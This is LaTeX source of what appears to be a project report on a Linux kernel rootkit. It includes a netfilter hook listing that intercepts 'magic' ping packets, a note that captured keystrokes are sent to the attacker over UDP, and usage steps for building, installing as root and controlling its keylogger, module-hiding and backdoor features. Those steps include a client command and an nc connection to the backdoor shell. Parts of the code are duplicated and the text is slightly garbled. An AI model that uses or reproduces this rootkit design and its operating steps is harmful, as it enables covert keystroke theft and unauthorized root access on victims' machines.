 \documentclass[12pt]{article}
\newcommand{\shellcmd}[1]{\\\indent\indent\texttt{\footnotesize\ #1}\\}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
To intercept the packets a new \lstinline{netfilter_hook} is added with the netfilter library, see Listing \ref{netfilter}. 
\begin{lstlisting}[caption=Netfilter Hook, label=netfilter]
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>

static struct nf_hook_ops netfilter_hook;


netfilter_hook.hook = (nf_hookfn*) filter_magic_packets;
netfilter_hook.hooknum = 0;
netfilter_hook.pf = PF_INET;
netfilter_hook.priority = 1;

nf_register_hook(&netfilter_hook);
nf_register_hook(&netfilter_hook);


\end{lstlisting}

The netfilter hook catches all IP packets. To get ping packets only the icmp packets are unpacked form the IP messages. For the evaluation only packets with the already defined properties are used (id==code).

\subsubsection{UPD Sockets}
To send the keys to the attacker UPD datagram packets are used.

\section{Usage}
\label{sec:usage}
This section describes how to setup the rootkit and how to use the client application.

\subsection{Rootkit}
The rootkit can be build via \shellcmdinline{make}. To install it execute \shellcmdinline{insmod rootkit.ko} as root user.

\subsection{Client}
The to start one of the possible operation on our infected system use \shellcmd{rootkit\_client.py~-[a,d]~<feature-key>~-h~<host>} Three different features can be controlled via the feature-keys \emph{key} (keylogger), \emph{hide} (hide the kernel module) and \emph{root} (backdoor/root access). To activate a feature use the option \shellcmdinline{-a} and \shellcmdinline{-d} to deactivate a feature. The root feature is the only feature that has no deactivation because it can be easily be done via the shell itself. The root feature only starts the backdoor on a certain host. To connect to it use the usual suspects e.g. \shellcmdinline\shellcmdinline{nc <host> 6666}.
\end{document}

